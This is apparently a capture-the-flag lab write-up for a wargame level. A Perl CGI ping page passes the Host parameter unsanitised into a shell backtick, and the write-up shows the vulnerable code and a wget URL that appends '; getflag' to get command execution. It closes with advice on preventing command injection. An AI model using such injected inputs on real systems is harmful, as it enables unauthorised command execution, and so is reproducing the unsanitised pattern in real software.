 
---
### 🌐 Challenge Description

> The user `flag07` was experimenting with a basic **Perl web interface** that allowed pinging external hosts.  
> However, their lack of input validation has introduced a classic **command injection** vulnerability.

**Login:** `level07 : level07`  
**Target files:** `/home/flag07/index.cgi`, `/home/flag07/thttpd.conf`  
**Port in use:** `7007`

---

### 🧪 Source Code Review

```perl
sub ping {
  $host = $_[0];
  ...
  @output = `ping -c 3 $host 2>&1`;
  ...
}
```

⚠️ **Vulnerability Insight:**  
The user input `Host` is passed directly into a backtick-executed `ping` command **without any sanitization**.

This allows for **arbitrary command execution** using shell metacharacters like `;`.

---

### 🛠️ Exploitation Steps

#### 🔍 1. Discover the Web Server Port

The config file hints at the port:

```bash
cat /home/flag07/thttpd.conf | grep port
```

✅ Output:

```
port=7007
```

So the web server is running locally on port **7007**.

---

#### 🌐 2. Trigger Command Injection

Craft a malicious URL that appends a shell command to the `Host` parameter.

```bash
wget "http://127.0.0.1:7007/index.cgi?Host=127.0.0.1;%20getflag"
```

- `%20` = space
    
- `;` = command separator
    
- `getflag` = executed as `flag07`
    

This will run the `ping` as usual _and_ execute `getflag`.

---

#### 📄 3. Read the Output

Check the downloaded response:

```bash
cat index.cgi?Host=127.0.0.1;%20getflag
```

✅ Output (in HTML):

```
You have successfully executed getflag on a target account
```

---

### 🧠 Lessons Learned

This level is a real-world example of **unsanitized input in system calls** — especially dangerous in web apps.

🧱 **Command Injection Rule of Thumb:**

> Never directly inject user-controlled input into shell commands.  
> Use safe APIs, proper escaping, or whitelisting to eliminate risk.

---
